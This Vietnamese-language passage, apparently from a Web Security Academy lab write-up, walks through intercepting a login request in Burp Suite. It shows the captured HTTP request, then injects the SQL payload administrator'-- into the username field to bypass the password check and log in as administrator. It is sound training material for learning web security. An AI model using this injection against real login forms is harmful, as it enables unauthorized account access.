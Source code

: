 4. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
5. Điền một thông tin đăng nhập ngẫu nhiên vào `username` và `password`, trong ví dụ này tôi sử dụng ký tự `a` để điền vào cả 2, và chọn **Log in**.
6. Phân tích gói tin mà BurpSuite đã chặn lại, ta có thể thấy các lệnh gán được thực hiện lên các biến `username=a` và `password=a`.

```
POST /login HTTP/2
Host: 0a5a001003763365809c807a00fd0066.web-security-academy.net
Cookie: session=kPlT05GsAtrZGFOGdOtT0NOjX1HF760s
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5a001003763365809c807a00fd0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5a001003763365809c807a00fd0066.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=92xpj2USBesupJfJH5bMZebO8iUjdxPa&username=a&password=a
```

7. Ta có thể nhận định rằng ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'a' AND password = 'a'
```

8. Vì đang hướng tới người dùng `administrator`, ta có thể điền `administrator'--` vào `username` và điền ngẫu nhiên vào `password` trên giao diện đăng nhập. Ứng dụng sau đó sẽ thực hiện truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'
```
- `administrator` được điền vào để hướng tới việc đăng nhập bằng quyền của người dùng `administrator`.
- `'--` được điền vào để đóng lại phần nhập dữ liệu đầu vào cho `username` và biến toàn bộ phần đăng sau của truy vấn SQL trở thành bình luận.

9. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.
